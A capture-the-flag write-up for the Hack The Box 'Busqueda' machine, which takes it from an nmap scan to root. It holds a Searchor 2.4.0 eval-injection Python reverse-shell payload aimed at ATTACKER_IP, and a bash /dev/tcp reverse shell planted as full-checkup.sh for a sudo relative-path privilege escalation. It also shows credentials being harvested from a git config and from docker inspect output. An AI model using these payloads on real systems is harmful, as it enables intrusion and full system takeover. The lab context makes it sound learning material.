 I start the machine with a simple nmap scan:
	
	nmap -p- 10.10.11.208
output:
	
	22/tcp open  ssh
	80/tcp open  http
i started taking a look at port 80 on browser, but i need to add the host at /etc/hosts with the 
domain name that the browser says:
	
	echo "10.10.11.208  searcher.htb" >> /etc/hosts
the site is runned by Flask and Searchor 2.4.0; by searching this version we find a vulnerability that was 
fixed in the next version, in the fix the developers removed 3 lines of code with an evla() statement:
	
	url = eval(
	    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
	)
after a bit of searching online i found out this POC:
	
	https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
in the repo there is this payload:
	
	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
we just need to replace ATTACKER_IP and PORT with our vpn details.

so we can start our listener (i use pwncat):
	
	python3 -m pwncat
	connect -lp 4444
and we can send our payload and WE GOT A SHELL!!
we are SVC user and we can go in our /home directory and submit the first flag
but we need to get root!

so i uploaded linpeas using pwncat:
	
	Ctrl + "d"
	upload /home/kali/Pentest/linpeas.sh /tmp/linpeas.sh
	Ctrl + "d"
	cd /tmp
	bash linpeas.sh
in the /var/www/app i found a .git repo where there is a config file:
	
	[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
	[remote "origin"]
	        url = http://cody:[REDACTED]@gitea.searcher.htb/cody/Searcher_site.git
	        fetch = +refs/heads/*:refs/remotes/origin/*
	[branch "main"]
	        remote = origin
	        merge = refs/heads/main
the interesting part is this:
	
	http://cody:[REDACTED]@gitea.searcher.htb/cody/Searcher_site.git
in fact by loging in gitea the url contains username and password of cody
(our svc user):
	
	cody:[REDACTED]
so we can run sudo -l with this password and see what privilage we may have:
	
	sudo -l
output:
	
	Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

	svc may run the following commands on busqueda:
	    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
by running the command as root we get 3 options:
	
	docker-ps     : List running docker containers
	docker-inspect : Inpect a certain docker container
	full-checkup  : Run a full system checkup
so by running:
	
	sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
output:
	
	CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS        PORTS                                             NAMES
	960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 23 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
	f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 23 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
so i have an idea of what containers are running and i have their ids so i can inspect them with the next command:
	
	sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
output:
	
	[....]
	"USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=[REDACTED]"
	[....]
so we found a password for another user on gitea... maybe the admin.
So i tried a binch of users on gitea like admin and root but eventually i tried administrator and
IT WORKED.
Now we are inside of the administrator repo where there are all the script that we can run as root
while beeing unprivileged user.
Inside the repo we can se the vulnerable line of code that we can take advantage of:
	
    elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
if we pass the "full-checkup" argument the script runs a full-checkup.sh from the actual directory;
so to craft our exploit we need to go in a word writable directory and create our full-checkup.sh:
	
	cd /tmp
	echo "#!/bin/bash" >> full-checkup.sh
	echo "/bin/bash -i >& /dev/tcp/10.10.14.156/6666 0>&1" >> full-checkup.sh
	chmod +x full-checkup.sh
now we have prepared our rev-shell payload and we can setup our (pwncat in my case) listener and run the script in /tmp directory:
(local):

	python3 -m pwncat
	connect -lp 6666
(remote):
	
	sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
SO NOW WE ARE FINALLY ROOT and we can submit our flag!!



